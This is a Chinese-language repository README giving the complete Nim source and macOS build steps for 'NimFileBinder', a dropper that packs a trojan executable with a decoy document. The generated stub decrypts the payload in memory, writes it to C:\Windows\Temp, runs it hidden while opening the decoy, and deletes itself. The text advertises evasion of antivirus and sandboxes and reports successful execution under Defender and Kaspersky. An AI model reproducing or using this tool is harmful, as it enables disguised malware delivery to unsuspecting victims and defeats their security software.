




# 0x01 原理概述
基于nim语言实现将2个文件打包到一起，执行后将exe释放到C:\Windows\Temp，然后删除自身，同时运行exe和docx

# 0x02 工具优势
01、基于nim语言，减少被杀软查杀的风险
02、打包器的核心代码部分会加密，并在内存中解密后运行
03、落地后删除自身，减少被传到沙盒的风险

# 0x03 完整代码
```
# File: NimFileBinder.nim

import os
import base64
import strfmt
import osproc
import nimcrypto

let help = """

  +-+-+-+-+-+-+-+-+-+-+-+-+-+
  |N i m F i l e B i n d e r|
  +-+-+-+-+-+-+-+-+-+-+-+-+-+ 

  It's a FileBinder writen by Nim
  And just a *rough* tool of learning Nim

  Usage:
    ./NimFileBinder <evil> <NormalFile> <key>
      -h,--help  : help
"""

func toByteSeq*(str: string): seq[byte] {.inline.} =
  ## Converts a string to the corresponding byte sequence.
  @(str.toOpenArrayByte(0, str.high))

proc EncryptFile(File1, File2, key: string): void = 
  var
   Content1 = readFile(File1)
   Content2 = readFile(File2)
   EnContent1 = encode(Content1)
   EnContent2 = encode(Content2)

  var
    data: seq[byte] = toByteSeq(decode(EnContent1))
    envkey: string = key

    ectx, dctx: CTR[aes256]
    key: array[aes256.sizeKey, byte]
    iv: array[aes256.sizeBlock, byte]
    plaintext = newSeq[byte](len(data))
    enctext = newSeq[byte](len(data))
    b64iv: string


  # Create Random IV
  discard randomBytes(addr iv[0], 16)
  # We do not need to pad data, `CTR` mode works byte by byte.
  copyMem(addr plaintext[0], addr data[0], len(data))

  # Expand key to 32 bytes using SHA256 as the KDF
  var expandedkey = sha256.digest(envkey)
  copyMem(addr key[0], addr expandedkey.data[0], len(expandedkey.data))

  ectx.init(key, iv)
  ectx.encrypt(plaintext, enctext)
  ectx.clear()

  b64iv = encode(iv)

  var B64EnCryContent: string = encode(enctext)

  var BinderTemplete: string = """

import base64
import winim
import encodings
import nimcrypto

func toByteSeq*(str: string): seq[byte] {} =
  ## Converts a string to the corresponding byte sequence.
  @(str.toOpenArrayByte(0, str.high))

var evilbase64 = "{}"

var data2: seq[byte] = toByteSeq(decode(evilbase64))

var BindFilebase64 = "{}"

var deb64iv = decode("{}")
var 
    envkey: string = "{}"
    dctx: CTR[aes256]
    key: array[aes256.sizeKey, byte]
    iv: array[aes256.sizeBlock, byte]
    crypttext = newSeq[byte]({})
    dectext = newSeq[byte]({})

copyMem(addr crypttext[0], addr data2[0], len(data2))

var expandedkey = sha256.digest(envkey)
copyMem(addr key[0], addr expandedkey.data[0], len(expandedkey.data))
copyMem(addr iv[0], addr deb64iv[0], aes256.sizeBlock)

dctx.init(key, iv)
dctx.decrypt(crypttext, dectext)
dctx.clear()

let decoded_Bindfile = decode(BindFilebase64)

var evilname: string = "{}"
var Bindfilename: string = "{}"

writeFile(Bindfilename, decoded_Bindfile)   

var utf8evilname =convert(evilname,"GB2312","UTF-8")
var utf8Bindfilename =convert(Bindfilename,"GB2312","UTF-8")

WinExec("cmd /k start " & utf8Bindfilename, SW_HIDE); 
writeFile(r"C:\\Windows\\Temp\\" & utf8evilname, dectext) 

#copyFile("C:\\Windows\\Temp\\calc.txt", "C:\\Windows\\Temp\\calc.exe")
#removeFile("C:\\Windows\\Temp\\calc.txt")

WinExec("cmd /c C:\\Windows\\Temp\\" & utf8evilname, SW_HIDE); 
ShellExecute(0, "open", "cmd.exe", "/c del outfile.exe", NULL, SW_HIDE)
#WinExec("cmd.exe /c del temp.exe", SW_HIDE)

""".fmt("{.inline.}", B64EnCryContent, EnContent2, b64iv, envkey, len(data), len(data), File1, File2)

  writeFile(r"outfile.nim", BinderTemplete)


proc CompileFile(): void = 
  let errC = execCmd("nim c --hints:off --cpu:amd64 -d:mingw --app:gui -d:danger -d:strip --opt:size --passc=-flto --passl=-flto {}".fmt("outfile.nim"))
  var rmhandle = tryRemoveFile("outfile.nim")


proc main() =
  if paramCount() == 3:
    var
      TraojanFile: string = paramStr(1)
      NormalFile: string = paramStr(2)
      Enkey: string = paramStr(3)

    EncryptFile(TraojanFile, NormalFile, Enkey)
    CompileFile()
    return

  if paramCount() == 1 and (paramStr(1) == "-h" or paramStr(1) == "--help"):
    echo help
    return
  
  if paramCount() == 0:
    echo help
    return

  else:
    echo "  Expect two arguments\n  ex: ./NimFileBinder <evil> <NormalFile> <key>"
    return
    

main()
```

# 0x04 Mac下编译
```
brew install mingw
brew install nim
此时编译NimFileBinder.nim会提示缺少库，还需要通过nimble安装缺少的库
nimble install strfmt
依次安装完缺少的库后，可通过下述指令成功编译NimFileBinder.nim
nim c --hints:off -d:release NimFileBinder.nim
```

# 0x05 效果展示

打包如下



Defender下弹出文档，删除自身，并上线



卡巴斯基下弹出文档，删除自身，并上线



均可上线


